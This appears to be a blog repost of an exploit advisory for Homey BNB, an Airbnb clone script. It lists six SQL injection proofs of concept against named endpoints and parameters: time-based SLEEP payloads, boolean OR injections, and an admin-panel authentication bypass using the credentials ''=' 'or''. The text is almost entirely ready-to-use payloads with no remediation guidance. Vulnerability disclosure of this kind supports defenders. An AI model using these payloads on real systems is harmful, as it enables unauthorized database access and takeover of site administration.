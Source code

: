 ```yaml
---
layout:     post
title:      "Airbnb Clone Script - Multiple SQL Injections"
date:       2019-03-26 12:08
author:     "Ahmet Ümit BAYRAM"
category:   exploit
tags:       [sql, sqli, sql injection, exploit-db]
---
```


# Exploit Title: Homey BNB (Airbnb Clone Script) - Multiple SQL Injections
# Date: 27.03.2019
# Exploit Author: Ahmet Ümit BAYRAM
# Vendor Homepage: https://www.doditsolutions.com/airbnb-clone-script/
# Demo Site: http://sitedemos.in/homeybnb/
# Version: V4
# Tested on: Kali Linux
# CVE: N/A

----- PoC 1: SQLi -----

Request: http://localhost/[PATH]/rooms/ajax_refresh_subtotal
Vulnerable Parameter: hosting_id (GET)
Payload: checkin=mm/dd/yy&checkout=mm/dd/yy&hosting_id=1' AND SLEEP(5)--
DXVl&number_of_guests=1


----- PoC 2: SQLi -----

Request: http://localhost/[PATH]/admin/edit.php?id=1
Vulnerable Parameter: id (GET)
Payload: id=if(now()=sysdate()%2Csleep(0)%2C0)


----- PoC 3: SQLi -----

Request: http://localhost/[PATH]/admin/cms_getpagetitle.php?catid=1
Vulnerable Parameter: catid (GET)
Payload: catid=-1'%20OR%203*2*1=6%20AND%20000640=000640%20--%20


----- PoC 4: SQLi -----

Request: http://localhost/[PATH]/admin/getcmsdata.php?pt=1
Vulnerable Parameter: pt (GET)
Payload: pt=-1'%20OR%203*2*1=6%20AND%20000929=000929%20--%20

----- PoC 5: SQLi -----

Request: http://localhost/[PATH]/admin/getrecord.php?val=1
Vulnerable Parameter: val (GET)
Payload: val=-1'%20OR%203*2*1=6%20AND%20000886=000886%20--%20

----- PoC 6: SQLi (Authentication Bypass -----

Administration Panel: http://localhost/[PATH]/admin/
Username: '=' 'or'
Password: '=' 'or'
